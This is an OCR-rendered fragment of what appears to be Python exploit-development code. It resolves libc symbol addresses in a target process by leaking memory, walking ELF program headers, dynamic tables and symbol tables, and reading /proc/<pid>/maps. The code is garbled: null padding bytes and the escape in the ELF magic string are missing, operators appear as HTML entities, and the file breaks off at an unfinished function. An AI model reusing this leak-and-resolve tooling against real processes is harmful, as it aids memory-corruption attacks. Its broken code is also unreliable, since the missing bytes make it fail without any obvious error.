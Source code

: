 ```
   else:
      i = -56
      p_type = 0
      while p_type != 2:
         i += 56
         p_type = u64(leak(Elf32_Phdr + i, hwordSz).ljust(8, ''))
      return u64(leak(Elf32_Phdr + i + 16, wordSz).ljust(8, '')) + PIE

def findDynTable(Elf32_Dyn, table, bitSz):
   p_val = 0
   if bitSz == 32:
      i = -8
      while p_val != table:
         i += 8
         p_val = u32(leak(Elf32_Dyn + i, wordSz).ljust(4, ''))
      return u32(leak(Elf32_Dyn + i + 4, wordSz).ljust(4, ''))
   else:
      i = -16
      while p_val != table:
         i += 16
         p_val = u64(leak(Elf32_Dyn + i, wordSz).ljust(8, ''))
      return u64(leak(Elf32_Dyn + i + 8, wordSz).ljust(8, ''))

def getPtr(addr, bitSz):
   with open('/proc/%s/maps' % sys.argv[1]) as maps: 
      for line in maps:
         if 'libc-' in line and 'r-x' in line:
            libc = line.split(' ')[0].split('-')
   i = 3
   while True:
      if bitSz == 32:
         gotPtr = u32(leak(addr + i*4, wordSz).ljust(4, ''))
      else:
         gotPtr = u64(leak(addr + i*8, wordSz).ljust(8, ''))
      if (gotPtr &gt; int(libc[0], 16)) and (gotPtr &lt; int(libc[1], 16)):
         return gotPtr
      else:
         i += 1
         continue

def findLibcBase(ptr):
   ptr &amp;= 0xfffffffffffff000
   while leak(ptr, 4) != "x7fELF":
      ptr -= 0x1000
   return ptr

def findSymbol(strtab, symtab, symbol, bitSz):
   if bitSz == 32:
      i = -16
      while True:
         i += 16
         st_name = u32(leak(symtab + i, 2).ljust(4, ''))
         if leak( strtab + st_name, len(symbol)+1 ).lower() == (symbol.lower() + ''):
            return u32(leak(symtab + i + 4, 4).ljust(4, ''))
   else:
      i = -24
      while True:
         i += 24
         st_name = u64(leak(symtab + i, 4).ljust(8, ''))
         if leak( strtab + st_name, len(symbol)).lower() == (symbol.lower()):
            return u64(leak(symtab + i + 8, 8).ljust(8, ''))

def lookup(pid, symbol):
```
